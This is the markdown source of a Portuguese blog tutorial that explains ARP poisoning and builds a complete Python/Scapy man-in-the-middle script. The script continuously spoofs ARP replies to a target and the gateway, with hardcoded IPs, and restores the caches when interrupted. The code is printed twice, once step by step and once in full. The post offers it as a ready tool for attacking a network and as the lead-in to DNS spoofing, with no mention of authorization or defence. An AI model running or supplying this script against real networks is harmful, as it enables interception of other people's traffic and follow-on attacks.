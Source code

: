 ```yaml
---
title: 'ARP Poisoning: O que é e como realizar este ataque MITM'
date: '2024-08-03'
summary: 'O que é e como funciona o ARP poisoning, um dos mais famosos ataques man-in-the-middle, e como explorá-lo usando Scapy em python.'
tags: ['hacking', 'mitm']
draft: false
---
```


![ARP Spoofing](/static/images/arp-spoof/arp-spoofing.jpg)
O que é e como funciona o ARP poisoning, um dos mais famosos ataques man-in-the-middle, e como explorá-lo usando Scapy em python.

---

<TOCInline toc={props.toc} asDisclosure />

## O que é o ARP

Na rede interna, os computadores se comunicam através do MAC address, e o ARP é o protocolo responsável pela identificação do MAC de cada máquina através de seu endereço IP.

Quando uma máquina vai se comunicar com a outra, ela manda um pacote ARP Broadcast ao MAC ff:ff:ff:ff:ff:ff com o destino sendo o IP da máquina alvo, este pacote passa por todos da rede e quem possuir o IP informado, responderá com o seu endereço MAC.

Para economizar recursos, cada máquina salva um cache com os MACs dos usuários da rede.

O ARP Poisoning attack atua nesse cache, “envenenando-o” e se passando pelo roteador, o que permite realizar diversos outros ataques, pois ao se passar pelo roteador todo o tráfego da rede passará por ele, permitindo sniffers, DNS Spoofing, etc.

## Como funciona o ataque

![ARP Poisoning](/static/images/arp-spoof/arp-poisoning.png)

### Envenenando o ARP

Primeiro o atacante envia uma requisição falsa ao roteador se passando pelo alvo.
Em seguida, envia um pacote ao alvo se passando pelo roteador, porém, usando o seu próprio endereço MAC.
Com isso o alvo identifica o IP do roteador como sendo dono do MAC address do atacante, e em um ataque, enviando infinitamente esta sequência de pacotes, nós conseguimos envenenar o ARP cache do alvo e nos passar pelo roteador!

### Restaurando o ARP

Para restaurar o ARP cache, o atacante envia novamente uma requisição ao roteador se passando pelo alvo, e em seguida envia um pacote ao alvo se passando pelo roteador, porém, com o MAC address real do roteador, assim restaurando o ARP cache.

## Criando o script

Agora que já entendemos como funciona o ataque vamos criar um script em Python que faça isso por nós!

Vamos começar importando o Scapy, biblioteca que iremos usar para criar os nossos pacotes.
```python:arppoison.py
from scapy.all import *
```

Agora vamos criar a função responsável por conseguir o mac address do roteador e do alvo:
```python:arppoison.py
def get_mac_address(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=ip) # Cria o pacote falso de ARP Request
    ans, uns = srp(arp_broadcast, timeout=2, verbose=0) # Envia o pacote e espera uma resposta

    return ans[0][1][1].hwsrc
```

E agora a função que enviará os pacotes para o envenenamento do ARP:
```python:arppoison.py
def poison_arp(dest_ip, dest_mac, src_ip):
    arp_spoof = ARP(op=2, psrc=src_ip, pdst=dest_ip, hwdst=dest_mac) # Cria o pacote falso
    send(arp_spoof, verbose=0) # Envia o pacote
```

Função que irá restaurar o ARP do alvo:
```python:arppoison.py
def restore_arp(dest_ip, dest_mac, src_ip, src_mac):
    pkt = ARP(op=2, hwsrc=src_mac, hwdst=dest_mac, psrc=src_ip, pdst=dest_ip) # Cria o pacote para restaurar o arp
    send(pkt, verbose=0) # Envia o pacote
```

Função que irá executar o ataque:
```python:arppoison.py
def main(gateway, target):
    target_mac  = get_mac_address(target) # Captura o mac do alvo
    gateway_mac = get_mac_address(gateway) # Captura o mac do roteador

    print("Target MAC: "+target_mac)
    print("Gateway MAC: "+gateway_mac)

    try:
        while True:
            print("Envenenando o ARP")
            poison_arp(gateway, gateway_mac, target) # Envia a requisição ao roteador
            poison_arp(target, target_mac, gateway) # Envia a resposta falsa ao alvo
    except KeyboardInterrupt:
        print("Restaurando ARP")
        restore_arp(target, target_mac, gateway, gateway_mac) # Restaura o ARP
        restore_arp(gateway, gateway_mac, target, target_mac) # Restaura o ARP
```

E por fim, as instruções para iniciar o ataque:
```python:arppoison.py
if __name__ == "__main__":
    gateway = "192.168.1.1"
    target  = "192.168.1.106"

    print("Iniciando o ataque")
    main(gateway,target) # Inicia o ataque
```

Nosso código está pronto! Com isso já podemos envenenar o ARP do nosso alvo e realizar diversos outros ataques, como o DNS Spoofing que irei demonstrar no próximo artigo.

Código final:

```python:arppoison.py showLineNumbers
from scapy.all import *

def get_mac_address(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=ip) # Cria o pacote falso de ARP Request
    ans, uns = srp(arp_broadcast, timeout=2, verbose=0) # Envia o pacote e espera uma resposta

    return ans[0][1][1].hwsrc

def poison_arp(dest_ip, dest_mac, src_ip):
    arp_spoof = ARP(op=2, psrc=src_ip, pdst=dest_ip, hwdst=dest_mac) # Cria o pacote falso
    send(arp_spoof, verbose=0) # Envia o pacote

def restore_arp(dest_ip, dest_mac, src_ip, src_mac):
    pkt = ARP(op=2, hwsrc=src_mac, hwdst=dest_mac, psrc=src_ip, pdst=dest_ip) # Cria o pacote para restaurar o arp
    send(pkt, verbose=0) # Envia o pacote

def main(gateway, target):
    target_mac  = get_mac_address(target) # Captura o mac do alvo
    gateway_mac = get_mac_address(gateway) # Captura o mac do roteador

    print("Target MAC: "+target_mac)
    print("Gateway MAC: "+gateway_mac)

    try:
        while True:
            print("Envenenando o ARP")
            poison_arp(gateway, gateway_mac, target) # Envia a requisição ao roteador
            poison_arp(target, target_mac, gateway) # Envia a resposta falsa ao alvo
    except KeyboardInterrupt:
        print("Restaurando ARP")
        restore_arp(target, target_mac, gateway, gateway_mac) # Restaura o ARP
        restore_arp(gateway, gateway_mac, target, target_mac) # Restaura o ARP

if __name__ == "__main__":
    gateway = "192.168.1.1"
    target  = "192.168.1.106"

    print("Iniciando o ataque")
    main(gateway,target) # Inicia o ataque
```
[Código Final](https://gist.github.com/ReddyyZ/e8f3ccbe5441e3e3068e573e5578072c#file-arppoison-py)

<Youtube videoId="k8JnAbIcOq4"/>